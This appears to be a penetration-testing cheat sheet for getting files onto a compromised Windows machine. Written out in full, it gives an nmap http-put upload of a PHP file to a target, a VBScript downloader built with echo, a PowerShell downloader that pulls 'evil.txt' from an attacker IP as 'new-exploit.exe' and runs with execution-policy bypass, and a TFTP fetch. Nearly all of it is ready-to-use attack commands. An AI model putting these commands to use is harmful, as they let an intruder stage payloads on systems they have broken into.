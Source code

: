 ## Nmap

> nmap -p 80 *TARGET_IP* --script http-put --script-args http-put.url='/remotefile.php',http-put.file='/root/myfile.php'

## VBScript

Copy this into Windows Shell

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

> cscript wget.vbs http://YOURIP/file_to_send.txt C:\save\file\here.txt

## Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://YOUR_IP/evil.txt" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

## TFTP

Installed on Windows XP up to 2003 by default
Ensure tftp is all set up as follows:

```
mkdir /tftp
aftpd --daemon --port 69 /tftp
cp /file/you/want /tftp
```

On Windows 
> tftp -i --yourIP-- get file.exe



